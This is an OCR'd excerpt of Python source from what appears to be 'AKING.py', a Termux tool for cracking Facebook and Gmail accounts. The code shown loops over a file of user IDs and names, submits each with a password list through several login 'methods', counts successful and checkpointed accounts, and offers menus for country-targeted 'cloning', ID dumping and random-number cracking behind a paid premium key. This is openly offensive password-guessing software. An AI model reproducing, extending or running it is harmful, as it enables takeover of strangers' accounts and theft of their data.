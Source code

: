                                         print(' Total account : \033[1;32m'+total_ids+f' \033[1;33m>\033[1;36m> \033[1;37mMethod -> \033[1;37mM{mthd}')
                                        print("\033[1;37m \x1b[38;5;208mUse flight mode for speed up\033[1;37m")
                                        linex()
                                        for user in fo:
                                                ids,names = user.split('|')
                                                passlist = plist
                                                if mthd in ['1','01']:
                                                        crack_submit.submit(ffb,ids,names,passlist)
                                                elif mthd in ['2','02']:
                                                        crack_submit.submit(api,ids,names,passlist)
                                                else:
                                                        crack_submit.submit(api1,ids,names,passlist)
                                print('\033[1;37m')
                                linex()
                                print(' The process has completed')
                                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                                linex()
                                input(' Press enter to back ')
                                os.system('python AKING.py')
                        elif xd in ['2','02']:
                                import dump
                                dump.Main()
                        elif xd in ['3','03']:
                                public()
                        elif xd in ['4','04']:
                                clear()
                                print(' [1] Pakistan cloning\n [2] Bangladesh cloning\n [3] Gmail cloning\n [0] Back menu')
                                linex()
                                x=input(' Choose: ')
                                if x in ['1','01']:
                                        pak()
                                elif x in ['2','02']:
                                        bd()
                                elif x in ['3','03']:
                                        gmail()
                                else:
                                        menu()
                        elif xd in ['5','05']:
                                gmail()
                        elif xd in ['6','06']:
                                wx=('Dsj9JMWoixk4Qsje0Ng3nA')
                        elif xd in ['0','00']:
                                exit(' Thanks for use 🥰 ')
                        else:
                                exit(' Option not found in menu...')
                else:
                        print("\033[1;31m Your Not Premium User...!\033[1;37m");time.sleep(1)
                        clear()
                        print('\033[1;31m First Read Note : ')
                        print("\033[1;36m We Not Responsible if facebook\n go on update you not get ok idz\n We don't responsible if you delete your \n termux and key need approve\033[1;37m")
                        linex()
                        print(' \033[1;31mYour Key Not Registered\033[1;37m')
                        print(f" \033[1;37mYour Key : {fkeyx}")
                        linex();print (" Tools.. : Facebook Cloning");print (" Massage : Your Key Not Registered");print (" Status  : \033[1;91mTrail\033[1;37m\n \033[1;31m\033[1;42mNote: If You Are Free User Don't Come IB\033[0;0m");linex();print(' [+] File crack\n [+] Create ids file\n [+] Public crack\n [+] Random number crack\n [+] Random gmail crack\n [+] Exit menu\n\x1b[1;97m [1] Upgrade Tool To (\x1b[1;95mPremium\x1b[1;37m)')
                        linex()
                        input(" Choose Option : ")
                        linex()
                        print(" Your Subscription Date Expire")